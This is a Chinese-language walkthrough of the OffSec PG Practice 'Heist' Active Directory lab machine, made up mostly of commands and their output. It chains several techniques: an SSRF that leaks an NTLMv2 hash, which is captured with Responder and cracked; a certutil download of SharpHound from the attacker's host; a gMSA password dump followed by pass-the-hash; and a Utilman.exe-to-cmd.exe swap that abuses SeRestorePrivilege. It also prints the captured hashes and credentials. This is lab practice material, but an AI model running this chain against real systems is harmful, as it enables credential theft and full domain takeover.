

###### tags: `Offsec` `PG Practice` `Hard` `Windows`

# Heist
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.211.165 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.211.165:53
Open 192.168.211.165:88
Open 192.168.211.165:135
Open 192.168.211.165:139
Open 192.168.211.165:389
Open 192.168.211.165:445
Open 192.168.211.165:464
Open 192.168.211.165:593
Open 192.168.211.165:3268
Open 192.168.211.165:3389
Open 192.168.211.165:3269
Open 192.168.211.165:5985
Open 192.168.211.165:8080
Open 192.168.211.165:9389
Open 192.168.211.165:49666
Open 192.168.211.165:49669
Open 192.168.211.165:49674
Open 192.168.211.165:49673
Open 192.168.211.165:49677
Open 192.168.211.165:49705
Open 192.168.211.165:49759

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-05-21 09:28:16Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: heist.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: heist.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
3389/tcp  open  ms-wbt-server syn-ack Microsoft Terminal Services
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8080/tcp  open  http          syn-ack Werkzeug httpd 2.0.1 (Python 3.9.0)
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Super Secure Web Browser
|_http-server-header: Werkzeug/2.0.1 Python/3.9.0
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack Microsoft Windows RPC
49705/tcp open  msrpc         syn-ack Microsoft Windows RPC
49759/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```
可以發現如果開啟`http server`，在搜尋框可以直接連上我們的kali，符合`SSRF`
```
┌──(kali㉿kali)-[~/pgplay]
└─$ python3 -m http.server 80

http://192.168.45.179
```

開啟`responder`
```
┌──(kali㉿kali)-[~/pgplay]
└─$ sudo responder -I tun0

[HTTP] NTLMv2 Client   : 192.168.211.165
[HTTP] NTLMv2 Username : HEIST\enox
[HTTP] NTLMv2 Hash     : enox::HEIST:6b2da7b89f4647b5:E4E237A0B9902F9F44A6DC2EAA2EC0FD:0101000000000000BFA6FE0762ABDA01E431704D5278C0B5000000000200080044004C004B004B0001001E00570049004E002D00340053004C005500540058003600460045004B004A000400140044004C004B004B002E004C004F00430041004C0003003400570049004E002D00340053004C005500540058003600460045004B004A002E0044004C004B004B002E004C004F00430041004C000500140044004C004B004B002E004C004F00430041004C00080030003000000000000000000000000030000003C871E315B08F3D0B7DFAFEBB99708690E3368808ADAA080B07C99914FB52C40A001000000000000000000000000000000000000900260048005400540050002F003100390032002E003100360038002E00340035002E003100370039000000000000000000
```

用`john`破可得密碼`california`
```
┌──(kali㉿kali)-[~/pgplay]
└─$ john enox.ntlm --wordlist=/home/kali/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
california       (enox)
```
用`CME`破
```
┌──(kali㉿kali)-[~/pgplay]
└─$ crackmapexec smb 192.168.211.165 -u enox -p "california" --shares  
SMB         192.168.211.165 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:heist.offsec) (signing:True) (SMBv1:False)
SMB         192.168.211.165 445    DC01             [+] heist.offsec\enox:california 
SMB         192.168.211.165 445    DC01             [+] Enumerated shares
SMB         192.168.211.165 445    DC01             Share           Permissions     Remark
SMB         192.168.211.165 445    DC01             -----           -----------     ------
SMB         192.168.211.165 445    DC01             ADMIN$                          Remote Admin
SMB         192.168.211.165 445    DC01             C$                              Default share
SMB         192.168.211.165 445    DC01             IPC$            READ            Remote IPC
SMB         192.168.211.165 445    DC01             NETLOGON        READ            Logon server share 
SMB         192.168.211.165 445    DC01             SYSVOL          READ            Logon server share
```

進來找東西看看，可以看到`domain`是`heist.offsec`
```
┌──(kali㉿kali)-[~/pgplay]
└─$ smbclient //192.168.211.165/SYSVOL -U enox%california
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Jul 20 07:01:21 2021
  ..                                  D        0  Tue Jul 20 07:01:21 2021
  heist.offsec                       Dr        0  Tue Jul 20 07:01:21 2021
```

再用`winrm`看看發現可登，使用`enox/california`登入之後，可以在`C:\Users\enox\Desktop`得local.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ crackmapexec winrm 192.168.211.165 -u enox -p "california" -d heist.offsec
HTTP        192.168.211.165 5985   192.168.211.165  [*] http://192.168.211.165:5985/wsman
WINRM       192.168.211.165 5985   192.168.211.165  [+] heist.offsec\enox:california (Pwn3d!)

┌──(kali㉿kali)-[~/pgplay]
└─$ evil-winrm -i 192.168.211.165 -u enox -p california 

*Evil-WinRM* PS C:\Users\enox\Desktop> type local.txt
05849b107130373d5c3c68dec5fa9732
```

上傳`sharphound`試試
```
*Evil-WinRM* PS C:\Users\enox\Desktop> certutil.exe -urlcache -f http://192.168.45.179/SharpHound.ps1 SharpHound.ps1
*Evil-WinRM* PS C:\Users\enox\Desktop> . .\SharpHound.ps1
*Evil-WinRM* PS C:\Users\enox\Desktop> Import-Module .\Sharphound.ps1
*Evil-WinRM* PS C:\Users\enox\Desktop> Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\enox\Documents\ -OutputPrefix "audit"

*Evil-WinRM* PS C:\Users\enox\documents> download audit_20240521030037_BloodHound.zip
```

丟`bloodhound`
```
┌──(kali㉿kali)-[~/pgplay]
└─$ sudo neo4j start

┌──(kali㉿kali)-[~/pgplay]
└─$ bloodhound

# shortest paths to high value targets
```

查看`user`，是`Web Admins` 
```
*Evil-WinRM* PS C:\Users\enox\documents> net user enox
User name                    enox
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/31/2021 6:09:05 AM
Password expires             Never
Password changeable          9/1/2021 6:09:05 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   3/22/2024 11:04:18 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Web Admins           *Domain Users
The command completed successfully.
```

看了一下`svc_apache`也有`web admins`的權限，也可以`ReadGMSAPassword`



下載[Invoke-GMSAPasswordReader.ps1](https://github.com/ricardojba/Invoke-GMSAPasswordReader)
```
*Evil-WinRM* PS C:\Users\enox\Documents> . .\Invoke-GMSAPasswordReader.ps1
*Evil-WinRM* PS C:\Users\enox\Documents>  Invoke-GMSAPasswordReader -Command "--AccountName svc_apache$"
Calculating hashes for Old Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : DA55A6102C791A052798C4B7EF6C0122
[*]       aes128_cts_hmac_sha1 : DCDE26BFBC9DF8915B7596B53D7D68C6
[*]       aes256_cts_hmac_sha1 : 233516DD90F498594EAC626E2FCA92504ABB675B34ED7D5E025D1897077CAFBD
[*]       des_cbc_md5          : 73F4133E1F385B68

Calculating hashes for Current Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : A266E0F8D19F9CDB92AD8C658F86AFFA
[*]       aes128_cts_hmac_sha1 : 50B54BE046548576B96FFF5B97C8C733
[*]       aes256_cts_hmac_sha1 : 0BFA50E65DF92D77DC37018814AB1AB835FDF5EBE7AE3867FB49F387BB477322
[*]       des_cbc_md5          : 70D5527CA470D380
```

用`hash`登入`svc_apache$`，查看權限有`SeRestorePrivilege`
```
┌──(kali㉿kali)-[~/pgplay]
└─$ evil-winrm -i 192.168.163.165 -u svc_apache$ -H A266E0F8D19F9CDB92AD8C658F86AFFA

*Evil-WinRM* PS C:\Users\svc_apache$\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

查看[SeRestorePrivilege](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#table)照著做，下載[EnableSeRestorePrivilege.ps1](https://github.com/gtworek/PSBits/blob/master/Misc/EnableSeRestorePrivilege.ps1)
```
*Evil-WinRM* PS C:\Users\svc_apache$\Documents> upload /home/kali/pgplay/EnableSeRestorePrivilege.ps1

*Evil-WinRM* PS C:\Users\svc_apache$\Documents> . ./EnableSeRestorePrivilege.ps1
*Evil-WinRM* PS C:\Users\svc_apache$\Documents> cd C:\Windows\system32
*Evil-WinRM* PS C:\Windows\system32> mv Utilman.exe Utilman.old
*Evil-WinRM* PS C:\Windows\system32> mv cmd.exe Utilman.exe
```

rdp到主機，按下`win+U`，到`C:\Users\Administrator\Desktop`得proof.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rdesktop 192.168.163.165

C:\Users\Administrator\Desktop> type proof.txt
5d50e35648cffb383b71cb0504349a96
```